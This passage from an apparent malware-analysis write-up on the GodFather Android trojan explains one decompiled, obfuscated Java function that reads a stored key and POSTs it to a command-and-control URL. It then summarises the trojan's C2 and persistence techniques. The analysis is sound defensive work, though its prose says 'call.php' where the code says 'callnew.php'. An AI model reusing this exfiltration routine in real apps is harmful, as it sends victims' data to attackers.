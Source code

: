 #### Malacostraca


![Figure 27 - Malacostraca Class]({{ '/assets//images/2024-12-09-godfather-android-analysis/img27.png' | relative_url }}))

This function retrieves the value associated with the key “ky” from the SharedPreference. 

 

It Inserts an addition parameter with key “ick” and value “true” into the params map, 

retrieves the value associated with key “min” from the shared preferences using the bedamned method. 

After that it passes the retrived value to the Uriiah function to obtain the base URL. 

Adds “call.php” to the obtained base url. 

Call undissuadably method to perform an HTTP POST request to this URL with the params. 

![Figure 28 - Request Http]({{ '/assets//images/2024-12-09-godfather-android-analysis/img28.png' | relative_url }}))

```java

public static void Malacostraca(Context context) {
    String effluvias = "ky";
    try {
        HashMap<String, String> params = new HashMap<>();
        
        params.put(effluvias, bedamned(context, effluvias));
        
        params.put("ick", "true");
        
        String url = Uriiah(bedamned(context, "min")) + "callnew.php";
        
        veepees.undissuadably(context, url, params);
    } catch (Exception e) {
    }
}

```


## Conclusion

Analysis of some of GodFather's features provided insight into its capabilities and operation.  
Here are the key points that emerged from our analysis: 

•   C2 communication: GodFather uses encrypted communication with the command-and-control server to send stolen data and receive commands. This two-way channel allows attackers to manage the infection in real time, updating the malware with new instructions or exfiltrating additional data without raising suspicion. 
•   Using Shared Preferences: The malware exploits Android's Shared Preferences to store critical information, such as login details or temporary keys. This technique allows GodFather to retain data even after a device reboot, maintaining persistence and making it easier to retrieve the information for later use.
